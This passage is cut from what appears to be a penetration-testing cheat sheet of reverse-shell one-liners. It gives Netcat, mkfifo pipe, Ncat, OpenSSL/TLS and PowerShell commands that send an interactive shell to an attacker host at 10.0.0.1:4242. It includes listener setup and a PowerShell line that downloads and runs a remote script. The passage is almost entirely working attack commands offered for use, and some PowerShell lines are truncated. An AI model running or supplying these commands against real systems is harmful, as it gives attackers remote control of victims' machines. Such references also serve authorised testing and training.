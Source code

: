 ```bash
nc -e /bin/sh 10.0.0.1 4242
nc -e /bin/bash 10.0.0.1 4242
nc -c bash 10.0.0.1 4242
```

#### OpenBSD

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 4242 >/tmp/f
```

#### BusyBox

```bash
rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 4242 >/tmp/f
```

#### Ncat

```bash
ncat 10.0.0.1 4242 -e /bin/bash
ncat --udp 10.0.0.1 4242 -e /bin/bash
```

***

### **8. OpenSSL / TLS Reverse Shells**

```bash
# Attacker
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 4242
# or
ncat --ssl -vv -l -p 4242

# Victim
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.0.0.1:4242 > /tmp/s; rm /tmp/s
```

***

### **9. Powershell Reverse Shells (Windows)**

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream=$client.GetStream();...
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242); ..."
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/.../mini-reverse.ps1')
```

***

### **10. TTY Shell / Interactive Shells**
